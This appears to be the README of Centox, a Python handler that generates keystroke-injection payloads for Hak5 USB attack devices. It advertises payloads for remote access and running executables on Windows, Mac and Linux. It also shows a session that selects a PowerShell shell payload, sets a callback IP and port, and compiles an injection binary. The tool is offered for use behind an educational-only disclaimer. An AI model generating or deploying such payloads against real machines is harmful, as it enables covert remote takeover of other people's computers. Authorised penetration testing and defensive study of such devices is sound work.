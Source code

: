 <div align="center">
    <img src="logo.png" height="200">
</div>

<h1 align="center">
  Centox
</h1>

Centox is an injection handler written in python3 and is designed to generate keystroke injection payloads
to deploy using a [USB Rubber ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe/),
[O.MG Cable](https://shop.hak5.org/products/omg-cable) or
[Bash Bunny](https://shop.hak5.org/products/bash-bunny) which was all designed by [Hak5](https://shop.hak5.org/).
Each payload was originally written for the rubber ducky but can be converted to 3 formats: ducky, bunny and omg.
This project contains payloads designed for establishing remote access, deploying and running executables and
more in as short time as possible. Centox comes with payloads designed for Windows, Mac and Linux with the
assumption that the target has not modified their default shortcuts.

## Disclaimer

This project was designed for educational purposes __ONLY__ and is not to be used without explicit permission.
Hacking without permission is not encouraged and the author is not responsible for any illegal use of this tool.

## Compatibility
- [x] USB Rubber Ducky
- [x] O.MG Cable
- [x] Bash Bunny

## Installation

Downloading and running setup.py:
```
$ git clone https://github.com/Sigurd-Pettersen/Centox.git
$ sudo python3 Centox/setup.py
```
running setup.py will automatically generate a centox executable to be run in terminal.

## Usage
Starting the centox handler:
```
$ centox
```

the handler commands can be listed using the `help` command:
```
[Centox] $ help

Command    Description
---------  ---------------------------------------------
list       lists all available: payloads layouts formats
use        choose a payload to use
set        sets global or payload arguments
options    show all available arguments
generate   generates the current payload
help       shows this help message
```

how to generate payloads:
```
[Centox] $ use windows/shell/powershell

[Centox] $ options

 Payload: windows/shell/powershell

Global Argument       Value
--------------------  -------
typing_delay_average
typing_delay_offset   25

Payload Argument    Value
------------------  -------
start_delay         500
ip
port
windows_admin       false

[Centox] $ set ip 192.168.68.42

[Centox] $ set port 9999

[Centox] $ generate -o /home/user/inject.bin -l no
[*] created temporary folder -> /tmp/tmpti0d_l1u
[*] converting payload to format: ducky
[*] writing raw payload to -> /tmp/tmpti0d_l1u/payload
[*] compiling payload to injection binary...
[*] injection compiled successfully -> /home/user/inject.bin
```
